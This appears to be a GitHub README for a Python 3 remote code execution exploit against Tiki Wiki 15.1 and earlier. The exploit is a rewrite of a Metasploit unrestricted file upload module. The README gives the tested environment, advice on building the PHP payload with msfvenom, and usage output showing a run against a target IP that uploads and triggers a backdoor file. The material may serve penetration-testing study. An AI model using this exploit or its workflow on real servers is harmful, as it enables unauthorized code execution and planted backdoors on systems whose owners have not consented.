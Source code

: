 # Tiki Wiki 15.1 unrestricted file upload exploit
Standalone Python 3 RCE exploit for Tiki Wiki <= 15.1 based on the [Metasploit module](https://www.exploit-db.com/exploits/40091).
This is a rewrite of the Metasploit module in Python, to be used outside Metasploit.

Tested with Python 3.7 on target Tiki Wiki 15.1 running on
* mysql 5.5.50
* php 5.6.40
* Ubuntu Server 16.04.6 LTS

Note the php payload doesn't execute if generated with base64 encoding. Don't use `-e php/base64` with `msfvenom`.
Explanatory [blog article here](https://ivanitlearning.wordpress.com/2019/09/25/ruby-exploit-rewrite-tiki-wiki-15-1-unrestricted-file-upload/).

## Usage
```
root@Kali:~/# python3 tikiwiki_15.1_RCE.py -h
usage: tikiwiki_15.1_RCE.py [-h] -U URL -P PHP

Required arguments:
  -U URL, --url URL  URL of the Tiki Wiki page eg.
                     http://webserver.com/tikiwiki
  -P PHP, --php PHP  Path to php payload eg. payload.php
root@Kali:~/# python3 tikiwiki_15.1_RCE.py --url 'http://192.168.92.151/tiki' --php payload.php
Target is vulnerable
Uploading backdoor file: ClLiqPSD.php
Backdoor successfully created
Triggering the exploit...
```
